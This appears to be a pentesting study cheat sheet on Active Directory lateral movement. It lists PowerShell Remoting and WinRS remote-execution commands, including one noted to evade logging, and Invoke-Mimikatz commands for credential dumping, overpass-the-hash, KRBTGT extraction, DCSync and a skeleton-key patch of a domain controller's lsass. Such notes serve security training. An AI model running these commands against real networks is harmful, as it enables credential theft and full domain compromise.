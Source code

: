 ## Lateral Movement on Active Directory 


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

- **Enable PowerShell Remoting:** From [M$ Documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting?view=powershell-7.2), creates rules on computer firewall to allow remote connections. 
```powershell
C:> Enable-PSRemoting 
```
- **Create Remote Session:** [M$ Documented](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2)
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
- **Entering into Existing PSSession**
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
- **Remote Execution**
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
- **Execute Remote Command**
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
- **Dump Credentials on Local Machine**
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
- **OverPass the Hash (OPTH)**
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:us.techcorp.local /aes256:<user_aes256key> /run:cmd.exe"'
```
- **Get KRBTGT Hash**
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
- **Credentials from Credential Vault**
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
- **Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname_full_FQDN>
```
